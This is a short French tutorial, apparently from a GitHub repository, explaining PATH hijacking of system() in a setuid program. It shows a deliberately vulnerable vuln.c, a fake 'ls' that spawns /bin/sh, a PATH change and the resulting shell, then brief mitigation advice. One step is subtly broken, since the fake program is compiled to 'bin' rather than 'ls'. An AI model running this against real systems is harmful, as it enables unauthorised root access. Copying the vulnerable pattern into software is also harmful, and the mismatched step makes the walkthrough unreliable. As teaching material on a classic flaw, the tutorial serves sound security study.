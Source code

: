 # System()

## I. La faille
La fonction system() de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer lorsque le chemin absolue n'est pas précisé, system() utilise la variable d'environnement $PATH. Il est donc possible d'agir sur cette variable pour tromper system().

## II. Pré-requis
* Un programme suid
* L'argument de system() est un chemin relatif

    ```Shell
    aas@ubuntu:~$ cat vuln.c
    void main()
    {
      system("ls -l");
    }
    ```

Le comportement normal de ce programme est le suivant. Notons le suid activé.

    ```Shell
    aas@ubuntu:~$ ./vuln 
    total 48
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
    -rws--x--x 1 root root 8600 sept. 16 10:07 vuln
    -rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 
    ```

## III. Exploitation de la faille
### Création d'un faux programme 'ls'
    ```Shell
    aas@ubuntu:~$ cat exploit.c 
    void main()
    {
      char *shell[] = {"/bin/sh",NULL};
      execve(shell[0],shell,NULL);
    }
    aas@ubuntu:~$ gcc exploit.c -o bin
    ```

### Modification de $PATH
    ```Shell
    aas@ubuntu:~$ PATH=.:$PATH
    ```

### Execution
    ```Shell
    aas@ubuntu:~$ ./vuln 
    $
    ```

## IV. Protection
On utilise les fonctions de type exec à la place de System. Mettre le chemin absolue avec system est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens".

